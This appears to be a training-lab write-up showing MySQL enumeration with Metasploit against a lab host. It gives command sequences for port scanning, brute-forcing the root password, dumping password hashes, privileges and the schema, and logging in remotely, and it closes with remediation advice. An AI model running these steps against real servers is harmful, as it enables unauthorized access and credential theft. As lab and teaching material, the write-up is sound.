# MySQL Enumeration

**Classification:** Assessment Methodologies / Enumeration<br>
**Target:** 192.138.49.3 (MySQL 5.5.61-0ubuntu0.14.04.1)

## 1. Executive Summary

The target runs a **MySQL 5.5.61** service on port 3306. Using Metasploit we fingerprinted
the version, brute-forced valid administrator credentials (`root:twinkle`), and then used
those credentials to enumerate server configuration, user accounts with their password
hashes and privileges, and the database schema. Finally we connected to the database
remotely to confirm access.

## 2. Port Scanning & Version Detection

After preparing MSF Console and setting the global `RHOSTS`/`RHOST` variables, we confirm
port 3306 is open and fingerprint the service.

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.138.49.3
run
```



```bash
use auxiliary/scanner/mysql/mysql_version
run
```

The server runs **MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)**.



## 3. Login Brute-Force

```bash
use auxiliary/scanner/mysql/mysql_login
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
```



```bash
run
```

The attack recovers valid credentials: **`root:twinkle`**.



## 4. Account Enumeration

Using the recovered admin credentials, we enumerate server parameters and accounts.

```bash
use auxiliary/admin/mysql/mysql_enum
set USERNAME root
set PASSWORD twinkle
```



```bash
run
```

The module discloses server configuration (hostname `demo.ine.local`, data directory,
`Loading of local files: ON`, `SSL Connection: DISABLED`...).



It also lists every account with its password hash and the privileges each account holds
(GRANT, CREATE USER, RELOAD, SHUTDOWN...).



Additional privileges are enumerated (SUPER, FILE, PROCESS), along with accounts that have
empty passwords or are not restricted by source.



## 5. Running SQL Queries

The `mysql_sql` module lets us run arbitrary SQL with the compromised credentials.

```bash
use auxiliary/admin/mysql/mysql_sql
set USERNAME root
set PASSWORD twinkle
```



```bash
set SQL show databases;
run
```

The databases are listed: `information_schema`, `mysql`, `performance_schema`, `upload`,
`vendors`, `videos`, `warehouse`.



## 6. Schema Dump

```bash
use auxiliary/scanner/mysql/mysql_schemadump
set USERNAME root
set PASSWORD twinkle
```



```bash
run
```

The full schema is dumped and stored as loot.



## 7. Reviewing Gathered Data

We review the information Metasploit has collected in the workspace: hosts, services and
loot...

```bash
hosts
services
loot
```



...and the credentials and hashes gathered so far.

```bash
creds
```



## 8. Remote Database Access

With the recovered credentials we connect to the database directly to gather further
information.

```bash
mysql -h 192.138.49.3 -u root -p
# password: twinkle
show databases;
```



## 9. Remediation Recommendations

1. **Enforce strong credentials:** the `root` account used a weak, guessable password
   (`twinkle`). Apply strong password policies and remove accounts with empty passwords.
2. **Restrict remote access:** bind MySQL to `localhost` or restrict host-based access
   (avoid `root@%`) so the service is not reachable from untrusted networks.
3. **Disable `LOAD DATA LOCAL INFILE`** and symlink usage to reduce file-read/write abuse.
4. **Enable TLS** for database connections to prevent clear-text credential interception.
5. **Apply least privilege:** limit powerful privileges (FILE, SUPER, GRANT) to only the
   accounts that truly need them.
